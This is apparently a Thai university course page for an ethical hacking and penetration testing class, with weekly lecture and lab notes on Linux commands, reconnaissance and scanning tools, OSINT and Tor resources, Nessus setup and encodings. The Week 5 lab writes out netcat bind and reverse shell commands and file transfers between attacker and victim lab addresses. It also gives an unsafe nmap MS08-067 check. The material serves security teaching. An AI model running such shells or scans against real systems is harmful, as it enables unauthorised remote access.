


# NEIS1308/NETS2403: การเจาะระบบแบบมีจรรยาบรรณ (Ethical Hacking and Penetration Testing)

## รายละเอียดรายวิชา
ระบบเครือข่ายและระบบปฏิบัคิการในเชิงลึก เพื่อหาข้อบกพร่องหรือช่องโหว่ ขั้นตอนการทดลองเจาะระบบเทคนิคและเครื่องมือที่ใช้ในการเจาะระบบ การหาจุดบกพร่องของซอฟต์แวร์ การถอดรหัสลับ ไวรัส โทรจัน การดักจับข้อมูล การหาข้อมูลด้านความปลอดภัยจากอินเทอร์เน็ต การทดลองเจาะระบบเว็บไซต์ การตรวจสอบความปลอดภัยเครือข่ายไร้สาย กลไกในการป้องกันระบบจากการบุกรุก การสร้างเครื่องมือสำหรับผู้ทดสอบระบบ จริยธรรมและจรรยาบรรณสำหรับผู้ทดสอบเจาะระบบ การกู้คืนข้อมูล การหาข้อมูล การหาร่องรอยจากการบุกรุกทั้งภายในและภายนอก พ.ร.บ.ว่าด้วยการกระทำความผิดเกี่ยวกับคอมพิวเตอร์

---
ม.เทคโนโลยีมหานคร อาคาร Q ห้อง Q101 

คาบ SAT2: 1030 - 1300

คาบ SAT3: 1330 - 1600

--- 
## Course Syllabus
- Course Introduction
- Network Refresher
- Ethical Hacking Methodology
- Information Gathering
- Scanning & Enumeration
- Vulnerability Scan
- Cryptography
- Exploitation
- Exploit Development (Buffer Overflows) 
- Privilege Escalation
- Wireless attack
- Web Attack
- พ.ร.บ.ไซเบอร์ และ Cyberrsecurity Framework

---
## Week 1@26 Nov 2022
## Lec 

### Group Line Prepare and channel for communicate

### Ethical Hacking คืออะไร (Q&A ทีละคน)

### Cybersecurity LIVE attack
- [Cisco Talos intelligence](https://talosintelligence.com/ebc_spam)
- [Digital Attack Map](https://www.digitalattackmap.com/)
- [FireEye Cybermap](https://www.fireeye.com/cyber-map/threat-map.html)
- [Fortinet Threatmap](https://threatmap.fortiguard.com/)
- [Raadware livethreatmap](https://livethreatmap.radware.com/)
  
### What Happens in an Internet Minute in 2022
- [1 min happen](https://localiq.com/blog/what-happens-in-an-internet-minute/)

### Technical Skill 
- Operation System (Windows, Linux, MacOS, etc.)
- Network concept
- Protocol
- Command over security areas

### Non-Technical Skills
- Learning ability 
- Problem-Solving skills
- Communication skiills
- Coommmited to security policies 
- Awareness of law, standards and Regulations 
  
### Security Concepts 

### The CIA Triad

C - Confidentiality การรักษาไว้ซึ่งความลับของข้อมูล โดยเป็นการปกป้องข้อมูลและไม่เปิดเผยข้อมูลไปยังผู้ที่ไม่ได้รับอนุญาต 
    
    - Personally Identifiable Information (PII) อยู่ภายใต้ขอบเขตของ confidentiality ซึ่งกล่าวถึงข้อมูลของแต่ละบุคคลที่จะต้องมีการรักษาไว้ซึ่งความลับและไม่ถูกเปิดเผยให้กับผู้ที่ไม่ได้รับอนุญาต ยกตัวอย่างเช่น protected health information (PHI) เป็นการป้องกันข้อมูลทางการแพทย์ของผู้ป่วย จะต้องได้รับการปกป้องให้สามารถเข้าถึงได้เฉพาะบุคคลที่มีได้รับอนุญาตเข้าถึงข้อมูลดังกล่าว เป็นต้น 

I - Integrity ข้อมูลต้องมีความถูกต้องครบถ้วนสมบูรณ์ไม่มีการเปลี่ยนแปลง ดัดแปลง หรือแก้ไขใด ๆ โดยไม่ได้รับอนุญาต
    
    - Data integrity เป็นการบ่งบอกว่าข้อมูลดังกล่าวจะต้องไม่ถูกเปลี่ยนแปลงใดๆ จากผู้ที่ไม่มีสิทธิ โดยจะต้องมีการป้องกันข้อมูลภายในระบบ เพื่อให้สามารถมั่นใจได้ว่าข้อมูลต่าง ๆ จะไม่ถูกเปลี่ยนแปลงไปในขั้นตอน เช่น ระหว่างจัดเก็บข้อมูล, ระหว่างการประมวลผลข้อมูล และระหว่างการส่งต่อข้อมูลได้ 
    
    - System integrity เป็นรูปแบบการจัดทำ Baseline สำหรับระบบ เพื่อให้มั่นใจได้ว่าระบบมีการตั้งค่าไว้อย่างถูกต้องสมบูรณ์โดยที่ไม่ถูกเปลี่ยนแปลงหรือแก้ไขการตั้งค่าแต่อย่างใด 

A - Availability ข้อมูลต้องมีความพร้อมใช้งานเมื่อถูกเรียกใช้ กล่าวคือข้อมูลจะต้องสามารถเข้าถึงได้และสามารถใช้งานได้จากผู้ที่มีสิทธิการเข้าถึงข้อมูลดังกล่าวเมื่อมีการร้องขอ

### Risk 
  - ผลกระทบ (Impact) x แนวโน้มที่จะเกิดเหตุ (Likehood)
### Control
  - Physical Control - การควบคุมทางกายภาพ
  - Technique Control - การควบคุมด้วยเทคเนิค
  - Administrative Control - การควบคุมเชิงนโยบาย

## Lab 
- Setup environment
- Install [VMWare](https://www.vmware.com/latam/products/workstation-pro/workstation-pro-evaluation.html)/[VirtualBox](https://www.virtualbox.org/)
- Config netowrk for Hypervisor 
  - Host Only
  - NAT
  - NAT Network
  - Bridge Network
- Install [Kali linux](https://www.kali.org/)
--- 
## Week 2@3 Dec 2022
## Lec
### Penetration Testing Process
- Pre-Exploitation
  - Information Gathering
  - Scanning
  - Enumeration
- Exploitation
  - Remote Exploitation
    - Gain System Access
    - Gain Information
    - Denial of services
    - Privilege Escalation
  - Local Exploitation
    - Bypass Restriction
    - Privilege Escalation
- Post-Exploitation
  - Gathering Sensitive information
  - Manage System/Services
  - Pivoting

### Stages of Hacking Cycles 
- Reconnaissance
  - Passive Reconnaissance
  - Active Reconnaissance 
- Scanning 
- Gaining Access
- Maintain Access
- Clearing Tracks
- Network Refresher
  - Introduction
  - OSI Model
  - Layer 2
  - Layer 3
  - Layer 4
  - Wellknown Protocols
  - Subnetting
## Lab
- Exploring Kali Linux 
- Sudo Overview 
- Navigating the File System
- Users and Privileges
  ```bash
  useradd test1
  passwd test1
  ```
- Common Network Commands 
  ```bash
  #SSH Command 
  ssh root@<ipaddr>
  ssh -i <certificate> root@<ipaddr>
  # list 
  ls 
  ls -la 
  # Print working directory
  pwd 
  # Change Directory 
  cd /
  cd ..
  cd 
  # Create empty file
  touch file.txt
  touch file{1..10}
  # write file
  echo "Hello" > file.txt
  echo "world" >> file.txt
  # show file 
  cat file.txt
  # Create directory
  mkdir mydir
  # copy and move file 
  cp file1 /tmp/.
  mv file1 file2 
  # remove file 
  rm -r file.txt
  rm -rf file.txt
  # Create symbollink or shortcut
  ln -s file.txt linkfile
  #Clear Screen
  clear 
  # Check username 
  whoami
  # install/update/upgrade software (Kali linux)
  sudo apt install vim
  sudo apt update 
  sudo apt upgrade -y 
  # manual of software
  man cat
  # Compare the file
  diff file1 file1.xx
  # Find file
  sudo find / -name "file.txt"
  # Find hidden file
  sudo find / -type f -name "."
  # find empty directory
  find . -type f -empty
  # find excutable files
  find /  -perm /a=x 

  # Network Check
  ip link show
  ip a
  ip a | grep eth0
  ip address show dev <INTERFACE>
  ip route show
  ifconfig
  ifconfig -a 
  # Enable Interface
  ifconfig <INTERFACE> up 
  # Disable Interface 
  ifconfig <INTERFACE> down
  # Set static IP on Interface
  ifconfig <INTERFACE> <IPADDRESS> netmask <NETMASK> broadcast <BROADCAST>
  # Enable Promiscuous mode for sniff data
  ifconfig <INTERFACE> promisc

  # Route 
  route
  route -n 
  route add default gw 192.168.1.1
  route add -net <Network> netmask <Netmask> gw <Gateway>
  # List routing cache info
  route -Cn
  # Port Checking
  netstat -ant 

  # DNS Checking
  nslookup www.google.com

  # Ping Test 
  ping -c 3 google.com
  # Traceroute 
  traceroute 8.8.8.8
  # iPerf 
  sudo apt install iperf -y
  # Server Side
  iperf -s
  # Client Side
  iperf -c <SERVER IP>
  ```
- Viewing, Creating and Editing
  ```bash
  nano file1
  cat file1
  tail file1
  head file1
  less file1
  ```
- Install and Update tools
  ```bash
  sudo apt update
  sudo apt upgrade -y
  ```
- Envionmane Variables
  ```bash 
  echo $PATH
  echo $USER
  echo $PWD
  echo $HOME
  # Environment variable can be defined with the export command
  export b=8.8.8.8
  ping -c 2 $b
  # Other environment variables defined by default in Kali Linux
  env
  ```
- Basic History Tricks 
  ```bash
  history
  # Rather than re-typing a long command from our history, we can make use of the history expansion facility. For example, looking back at Listing 34, there are three commands in our history with a line number preceding each one. To re-run the first command, we simply type the ! character followed by the line number, in this case 1, to execute the cat /etc/lsb-release command
  !1
  
  # history shortcut is !!, which repeats the last command that was executed during our terminal session:
  !!
  # By default, the command history is saved to the .bash_history file in the user home directory. 
  cat ~/.bash_history
  ```
  - Redirecting to a new file
  ```bash
  ls 
  echo "test"
  echo "test" > redirection_test.txt
  ls 
  cat redirection_test.txt
  echo "Kali linux" > redirection_test.txt
  cat redirection_test.txt
  echo "IS FUN" >> redirection_test.txt
  cat redirection_test.txt
  # As you may have guessed, we can use the < operator to send data the “other way”. In the following example, we redirect the wc command’s STDIN with data originating directly from the file we generated in the previous section. Let’s try this with wc -m which counts characters in the file
  wc -m < redirection_test.txt
  # Redirecting STDERR
  ls .
  ls ./test
  ls ./test 2>error.txt
  cat error.txt
  ```
  - Pipe
  ```bash
  cat error.txt
  cat error.txt | wc -m
  cat error.txt | wc - m > count.txt
  cat count.txt
  ```
  - Grep
  ```bash
  ls -la /usr/bin | grep zip
  ```
  - sed 
  ```bash 
  echo "I need to try hard" | sed 's/hard/harder /'
  ```
  - cut 
  ```bash
  echo "I Hack binaries, web apps, mobile apps, and just about anythong else" | cut -f 2 -d ","

  cut -d ":" -f 1 /etc/passwd
  ``` 
  - awk 
  ```bash
  echo "hello::there::friend" | awk -F "::" '{print $1, $3}'
  ```
  - nano
  - vi/vim
  - Download File
  ```bash
  # The wget command, which we will use extensively, downloads files using the HTTP/HTTPS and FTP protocols. Listing 67 shows the use of wget along with the -O switch to save the destination file with a different name on the local machine
  wget -o filename https://test.com/file
  wget -P <PATH> https:/test.com/file.tar.xz
  # Limit speed wget
  wget --limit-rate=1m https:/test.com/file.tar.xz
  # Download by use another User-Agent
  wget --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" https:/test.com/file.tar.xz
  # Nocheck Certificate 
  wget --no-check-certificate https://test.com
  # curl is a tool to transfer data to or from a server using a host of protocols including IMAP/S, POP3/S, SCP, SFTP, SMB/S, SMTP/S, TELNET, TFTP, and others. A penetration tester can use this to download or upload files and build complex requests. 
  curl -o filename https://test.com
  # Get Request
  curl --request GET https://test.com
  curl -X GET https://test.com
  # Post Request
  curl --request POST
  curl -X POST
  curl --request POST https://test.com  -d 'username=admin&password=P@ssw0rd'
  # Request spec header
  curl -H "X-Header: value" https://test.com
  curl -H "X-Forwarded-For: 127.0.0.1" https://test.com


  # axel is a download accelerator that transfers a file from a FTP or HTTP server through multiple connections. This tool has a vast array of features, but the most common is -n, which is used to specify the number of multiple connections to use. In the following example, we are also using the -a option for a more concise progress indicator and -o to specify a different file name for the downloaded file.
  axel -a -n 20 -o filename https://test.test.com
   ```
  - Alias
  ```bash 
  alias lsa='ls -la'
  lsa
  alias mkdir='ping -c 1 localhost'
  unalias mkdir
  mkdir
  ```
--- 
## Week 3@10 Dec 2022
หยุดรัฐธรรมนูญ โดยชดเชยวันอาทิตย์ที่ 15 ม.ค.65

--- 
## Week 4@17 Dec 2022
## Lec
- Ethical Hacking Methodology
- Information Gathering (Reconnaissance) 
- **Passive** information gathering
  - [WHOIS Analysis](https://who.is/)
  - DNS Enumeration 
    - Standard Record Enumeration (A, AAAA, NS, SOA, MX, TXT, etc.)
      - NS: Nameserver record, which indicates the name servers associated 
with a given domain.
      - A: Address IPv.4 Record
      - AAAA: Address IPv.6 record
      - MX: Mail Exchange record, which identifies the mail servers for the 
given domain.
      - TXT: Text record, which includes an arbitrary text string for the domain. 
      - HINFO: Host Information record, which associates an arbitrary set of 
information with a domain name, formerly used to indicate system types.
      - CNAME: Canonical Name record, which indicates aliases and alternative 
names for a given host 
      - SOA: Start of Authority record, which indicates that a server is authoritative for 
that DNS zone 
      - RP: Responsible Person records, which are informational, not functional (that is, 
they have no impact on DNS functionality) and indicate the human responsible 
for a given domain. 
      - PTR: Pointer for inverse lookups records, also called a reverse record, 
indicating an IP address to domain name mapping. 
      - SRV: Service location records, which provides information about available services, including port and hostname. 
    - Zone Transfer
    - Reverse lookup
    - Subdomain Brute-force
    - SSL Certificates 
    - Search engines 
    - Online DNS tools
    - dig tool
  ```bash
  dig {a|txt|ns|mx} domain.com
  dig {a|txt|ns|mx} domain.com @ns1.domain.com
  dig domain.com ANY
  # Zone Tranfer
  dig axfr example.com @ns1.example.com
  ```
    - dnsenum
  ```bash
  dnsenum --noreverse -o mydomain.xml example.com
  ```
    - dnsrecon tool
  ```bash
  dnsrecon -d target.com -D wordlist -t brt 
  dnsrecon -t snoop -D wordlist -n ns-server.com
  dnsrecon -d target.com -D wordlist -t std --xml dnsrecon.xml
  ```
    - amass tool
  ```bash
  amass enum -d domain.com
  amass itel -d domain.com
  ```
    - [shodan](https://www.shodan.io)
    - [Censys](https://search.censys.io/)
    - [Dnsdumpster](https://dnsdumpster.com/)
  

- **Active** information gathering
  - [nmap](https://www.stationx.net/nmap-cheat-sheet/)
  - masscan
  ```bash
  masscan -p80,8000-8100 10.0.0.0/8 --rate=10000
  masscan -p80 10.0.0.0/8 --banners -oB <filename>
  masscan --open --banners --readscan <filename> -oX <savefile>
  ```
  - enum4linux
  ```bash
  enum4linux -U -o <ip>
  enum4linux -a -v <ip>
  ```
  - smbclient: smbclient is a client that can ‘talk’ to an SMB/CIFS server. It 
offers an interface similar to that of the FTP program. Operations 
include things like getting files from the server to the local 
machine, putting files from the local machine to the server, 
retrieving directory information from the server and so on.
  ```bash
  smbclient -L <ip> 
  smbclient //<ip>/share
  ```
  - dirb
  ```bash
  dirb http://target.com/
  ```
  - gobuster
  ```bash
  gobuster dir -u http://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.php,.txt
  ```
  - Wfuzz
  ```bash
  wfuzz dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://target.com/~FUZZ
  ```
  - FFUF
  ```bash
  ffuf -c -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u 'http://target.com/FUZZ' -fc 403 
  ```
  - Metagofil ค้นหาไฟล์ต่างๆที่อยู่บนเว็บไซด์ของเป้าหมาย
  ```bash
  metagoofil -d target.com -t doc,pdf -l 200 -n 50 -o test -f
  # Option ที่ใช้คือ
  # -d ระบุเว็บไซด์ที่ต้องการค้นหา
  # -t ระบุประเภทไฟล์ที่ต้องการค้นหา
  # -n ระบุจำนวนไฟล์สูงสุดที่ต้องการ download
  # -l ระบุจำกัดผลที่รับกลับมาจากการค้นหาด้วย Google(โดยปกติคือ 200)
  # -o ระบุ path ที่เก็บไฟล์ต่างๆจากการ download file
  # -f ระบุถึงการบันทึกผลการ search
  ```
- OSINT (Opensource Intelligence)
  - [Map of OSINT](https://osintframework.com) 
  - [Sherlock](https://github.com/sherlock-project/sherlock) 
  - [Yandex](https://yandex.com/images) ค้นหารูปภาพได้ดีกว่า Google 
  - [ค้นหาข้อมูลเบอร์โทร](https://www.truecaller.com) 
  - [ค้นหา Location](https://tool.geoimgr.com) 
  - [ตรวจอสอบ Hotspot](https://www.wigle.net)
  - [ตรวจสอบเส้นทางการบิน](https://www.flightradar24.com) 
  - [ตรวจสอบเส้นทางเดินเรือ](https://www.marinetraffic.com/en/ais/home/centerx:-12.0/centery:24.9/zoom:4) 
  - [Google Hacking Database](https://www.exploit-db.com/google-hacking-database) 
  - [SSL or TLS certificates](https://crt.sh) 
  - [Wayback Machine](https://archive.org/web/)
  - [Check Beach information](https://haveibeenpwned.com) และ (https://www.dehashed.com) 
  - [Spiderfoor](https://www.spiderfoot.net) SpiderFoot is a reconnaissance tool that automatically queries over 100 public data sources (OSINT) to gather intelligence on IP addresses, domain names, e-mail addresses, names and more. 
  - [Robtex](https://www.robtex.com/dashboard/)
  - [เว็บสำหรับตรวจสอบเว็บที่โดน Web Defacement](http://zone-h.org)
  - AI Face Generator (https://thispersondoesnotexist.com และ https://generated.photos/faces)
  - IOC Checker
    - https://otx.alienvault.com/preview
    - https://exchange.xforce.ibmcloud.com
    - https://www.virustotal.com 
    - https://www.hybrid-analysis.com 
  - Threat intelligent feed source 
    - https://www.circl.lu/doc/misp/feed-osint
    - http://www.botvrij.eu/data/feed-osint
    - https://zeustracker.abuse.ch/blocklist.php?download=compromised
    - http://rules.emergingthreats.net/blockrules/compromised-ips.txt
    - https://panwdbl.appspot.com/lists/mdl.txt
    - https://www.dan.me.uk/torlist
    - http://cybercrime-tracker.net/all.php
    - http://data.phishtank.com/data/online-valid.csv
    - http://labs.snort.org/feeds/ip-filter.blf
    - https://ransomwaretracker.abuse.ch/feeds/csv/
- [TOR Network](https://www.torproject.org)
  - Search engine in TOR 
    - https://ahmia.fi/ 
    - ahmia
    - darksearchio
    - onionland
    - notevil
    - darksearchenginer
    - phobos
    - onionsearchserver
    - torgle
    - onionsearchengine
    - tordex
    - tor66
    - tormax
    - haystack
    - multivac
    - evosearch
    - deeplink
  - กรณีต้องการเข้าใช้ .onion สามารถใช้ .ly ต่อท้าย เพื่อเข้าไปยัง Site ดังกล่าวได้โดยไม่ผ่าน Browser TOR ได้ เช่น .onion.ly เป็นต้น
  - Check TOR Exit Nodes 
    - https://www.dan.me.uk/tornodes 
    - https://udger.com/resources 
  - Mail on TOR 
    - http://mail2tor2zyjdctd.onion 
    - http://secmailw453j7piv.onion 
    - https://ctemplar.com 
  - BTC followup 
    - https://etherscan.io
    - https://www.bitcoinwhoswho.com
    - https://www.blockchain.com/explorer 
--- 

## Week 5@24 Dec 2022
## Lec & LAB
- [Download Windows 7](https://drive.google.com/file/d/1-5mODkxntoAZwID137bdZohXanrtBWnh/view?usp=sharing)
- Enumeration
  - Email ID
  - Default Password
  - SNMP
  - Bruteforce Attack on Active Directory
  - Enumeration through DNS Zone Transfer 
  - Services and Ports to Enumerate
  - Research Potential Vulnerability 
    - [Exploit DB](https://www.exploit-db.com/)
    - Searchspoit
     ```bash
      searchspoit smb
    ```
- Vulnerability Scanning
  - NMAP NSE script 
    ```bash
    ls -ls /usr/share/nmap/scripts 
    # Help NSE Script
    nmap --script=help dns-zone-transfer
    # DNS
    nmap --script=dns-zone-transfer -p 53 ns.server.test 
    # SMB
    ls -la /usr/share/nmap/scripts/smb*
    nmap 10.10.10.10 --script=smb-os-discovery
    # In this case, Nmap identifies that the specific SMB service is missing at least one critical patch for the MS08-067212 vulnerability.
    nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.10.10.10
    ```
  - Connection Testing 
    - Binding Shell 
      ```bash 
      # Attacker(10.10.10.1) ---> Victim (10.10.10.2)
      ## Attacker command (KALI Linux) 
      nc 10.10.10.2 4444 

      ## Victim (Windows OS)
      nc.exe -vnlp 4444 -e cmd.exe 
      ## Victim (Unix OS)
      nc -vnlp 4444 -e /bin/bash
      ```
    - Reverse Shell
       ```bash 
      # Attacker(10.10.10.1) <--- Victim (10.10.10.2)
      ## Attacker command (KALI Linux) 
      nc -lvnp 4444

      ## Victim (Windows OS)
      nc.exe 10.10.10.1 4444 -e cmd.exe 
      ## Victim (Unix OS)
      nc 10.10.10.1 -e /bin/bash
      ```
    - Upload file by Netcat 
      ```bash 
      # Attacker(10.10.10.1) ---> Victim (10.10.10.2)
      ## Attacker command (KALI Linux) 
      nc 10.10.10.2 4444 < file.txt

      ## Victim (Windows OS)
      nc.exe –vnlp 4444 > file.txt
      ## Victim (Unix OS)
      nc –vnlp 4444 > file.txt
      ```
    - Download File by Netcat
      ```bash
      # Attacker(10.10.10.1) ---> Victim (10.10.10.2)
      ## Attacker command (KALI Linux) 
      nc 10.10.10.2 4444 > file.txt

      ## Victim (Windows OS)
      nc.exe –vnlp 4444 < file.txt
      ## Victim (Unix OS)
      nc –vnlp 4444 < file.txt
      ```
    - Python HTTP Server
      ```python
      python -m SimpleHTTPServer [port]      #Version 2
      python3 -m http.server   [port]        #Version 3 
      ```
    - [Shell Generator](https://www.revshells.com/)
    - Try DVWA SQLinjection and reverse shell to kali
      - [LAB Guide](https://drive.google.com/file/d/1-TMcU-b5_PyxAYoojZr876ByjT1yQVnm/view?usp=share_link)
      - [Metasploitable](https://drive.google.com/file/d/1-4Are7QBCnwRZ9_b3g3ncKNAWTAh2jun/view?usp=sharing)

--- 
## Week 6@31 Dec 2022

หยุดวันสิ้นปีใหม่ โดยชดเชยวันอาทิตย์ที่ 22 ม.ค.65

--- 
## Week 7@7 Jan 2023
Social Engineering Attacks 
- [setoolkit](https://linuxhint.com/kali-linux-set/)
Enumeration Cheatsheet 
- [Hacktricks](https://book.hacktricks.xyz/welcome/readme)
- Nessus
  - Install Guide 
    - Step 1: Download Nessus .deb file form [Tenable site](https://www.tenable.com/downloads/nessus).
    - Step 2: Install packet via apt command 
      ```bash
      sudo apt install ./Nessus-x.x.x.deb 
      ```
    - Step 3: Start nessusd service
      ```bash
      sudo systemctl start nessusd
      ```
    - Step 4: Navigate to [https://localhost:8834](https://localhost:8834)
    - Step 5: Install Nessus **Essential** Version
    - Step 6: Register and get Activate Code 
      - [Email Temp](https://tempail.com/en/)
      - [Activate Code](https://www.tenable.com/products/nessus/activation-code)
      - Step 7: Wait for download component 
      - Step 8: Let's Scan via New Scan
- [https://explainshell.com/](https://explainshell.com/)
- นักศึกษากลุ่มที่ 1 รายงานผลการ Pentest พร้อมอธิบาย Command อย่างละเอียด กลุ่มอื่น ๆ ทำตามและส่ง Flag 
  
--- 
## Week 8@14 Jan 2023
# Lec
- OpenVA
  - [Install Guide](https://greenbone.github.io/docs/latest/22.4/container/index.html) 
- TRY to SCAN Win7 via Nessus and OpenVA

- นักศึกษากลุ่มที่ 2 รายงานผลการ Pentest พร้อมอธิบาย Command อย่างละเอียด กลุ่มอื่น ๆ ทำตามและส่ง Flag 

--- 
## Week 8@15 Jan 2023
## Lec
- Cryptography เป็นเทคโนโลยีการเข้ารหัสและถอดรหัสข้อมูลเพื่อป้องกันการถูกโจมตีหรือเข้าถึงโดยไม่มีสิทธิ์ มักใช้ในการเข้ารหัสข้อมูลส่วนตัว, ข้อมูลทางธุรกิจ และการสื่อสารในเครือข่าย
  - กระบวนการเข้ารหัสหรือ Encryption Process
    - Paintext > Encryption > Ciphertext > Decryption > Paintext 
  - Tools 
    - [Cyberchef](https://gchq.github.io/CyberChef/)
    - [dcode.fr](https://www.dcode.fr/)
  - Encoding and Decoding 
    - Encoding คือการแปลงข้อมูลให้อยู่ในรูปแบบที่ใช้ได้ในระบบหรือเครื่องมือที่เฉพาะ เช่น แปลงข้อมูลตัวอักษรให้เป็นเลขฐาน 2 (binary) หรือ แปลงข้อมูลภาพให้เป็นไฟล์ JPEG
    - Decoding คือการแปลงข้อมูลกลับมาในรูปแบบต้นฉบับ หรือรูปแบบที่ใช้ได้ในการเข้าถึง เช่น แปลงเลขฐาน 2 เป็นตัวอักษร หรือ แปลงไฟล์ JPEG เป็นภาพ
    - Binary เป็นรูปแบบการแปลงข้อมูลในรูปแบบต้นฉบับเป็นข้อมูลในรูปแบบฐาน 2 (binary) ซึ่งเป็นรูปแบบข้อมูลที่ใช้ในคอมพิวเตอร์ โดยใช้ 0 และ 1 เพื่อแทนค่าต่างๆ เช่น ตัวอักษร A จะแปลงเป็น 01000001 , ตัวเลข 10 เป็น 00001010
    - Base-8, หรือ Octal, เป็นระบบการเข้ารหัสตัวเลขที่ใช้ 8 หลัก ซึ่งมีตัวเลข 0-7 เป็นตัวหลัก โดยเลขใดเลขหนึ่งจะแทนค่า 8^n เมื่อ n เป็นตำแหน่งของหลัก ซึ่งจะแปลงข้อมูลเป็นตัวเลข 8 หลัก
    - Hex/Hexadecimal Hex encoding (Hexadecimal encoding) คือการแปลงข้อมูลในรูปแบบต้นฉบับเป็นข้อมูลในรูปแบบฐาน 16 (Hexadecimal) ซึ่งเป็นรูปแบบข้อมูลที่ใช้ในคอมพิวเตอร์ โดยใช้ตัวเลข 0-9 และ A-F เพื่อแทนค่าต่าง ๆ เช่น ตัวอักษร A จะแปลงเป็น 41 , ตัวเลข 10 เป็น A
    - Base58 Base58 เป็นระบบการเข้ารหัสตัวเลข ซึ่งจะแปลงข้อมูลเป็นตัวเลข 58 หลัก โดยใช้ตัวเลขจาก 0-9 และตัวอักษร A-Z และ a-z (ยกเว้นตัว l, I, O เพื่อไม่ให้เกิดความสับสน) ซึ่งมักใช้ในการเข้ารหัสข้อมูลส่วนตัว เช่น Bitcoin Address
    - Base62 เป็นระบบการเข้ารหัสตัวเลข ซึ่งจะแปลงข้อมูลเป็นตัวเลข 62 หลัก โดยใช้ตัวเลข 0-9 และตัวอักษร A-Z และ a-z ซึ่งจะเป็นรูปแบบข้อมูลที่มีขนาดเล็กกว่า Base64
    - Base64 เป็นระบบการเข้ารหัสข้อมูลโดยใช้ 64 ตัวอักษร โดยจะใช้เลข 0-9 และตัวอักษร A-Z, a-z และ + / (ยกเว้น = ) ซึ่งจะแปลงข้อมูลเป็นตัวเลข 6 หลัก
    - Base85 Base85 เป็นวิธีการเข้ารหัสข้อมูลโดยใช้ 85 ตัวอักษร โดยแต่ละตัวอักษรจะแทนค่าของ 5 บิต ซึ่งจะทำให้การเข้ารหัสและถอดรหัสข้อมูลเป็นไปได้ง่ายขึ้นเปรียบเทียบกับ Base64 ซึ่งใช้ 64 ตัวอักษรเท่านั้น
    - ROT13 เป็นวิธีการเข้ารหัสข้อมูลที่ใช้การเลื่อนตัวอักษรที่เป็นตัวอักษรภาษาอังกฤษ 13 ตำแหน่ง นั่นคือ ตัวอักษร A จะเปลี่ยนเป็น N, B จะเปลี่ยนเป็น O และต่อไปจนถึง Z จะเปลี่ยนเป็น M และเหมือนกันสำหรับตัวอักษร a-z ใช้กันโดยการแปลงข้อความสำหรับความปลอดภัยเบื้องต้น
    - ROT47 เป็นวิธีการเข้ารหัสข้อมูลที่ใช้การเลื่อนตัวอักษร 47 ตำแหน่ง ในภาษา ASCII ซึ่งจะเปลี่ยนตัวอักษรต่างๆ ในรูปแบบต่างๆ ตั้งแต่ ตัวอักษร ตัวเลข และสัญลักษณ์ โดยใช้สำหรับความปลอดภัยเบื้องต้น
    - Atbash เป็นวิธีการเข้ารหัสข้อมูลที่ใช้การเปลี่ยนตัวอักษรตามลำดับตัวอักษรของตัวอักษรตัวสุดท้ายของภาษาอังกฤษ เช่น A เปลี่ยนเป็น Z, B เปลี่ยนเป็น Y และต่อไปจนถึง Z เปลี่ยนเป็น A โดยใช้ในการเข้ารหัสข้อความสำหรับความปลอดภัยเบื้องต้นในยุคโบราณ
    - URL Encode/Decode เป็นวิธีการแปลงข้อมูลให้สามารถใช้งานได้บนอินเทอร์เน็ต โดยการเข้ารหัส URL Encode จะแปลงตัวอักษรที่ไม่สามารถใช้ใน URL ได้ เช่น ช่องว่าง อักขระพิเศษ ให้เป็นรหัส %่่ โดยส่วนของ URL Decode จะเป็นการแปลงกลับมาเป็นตัวอักษรปกติ
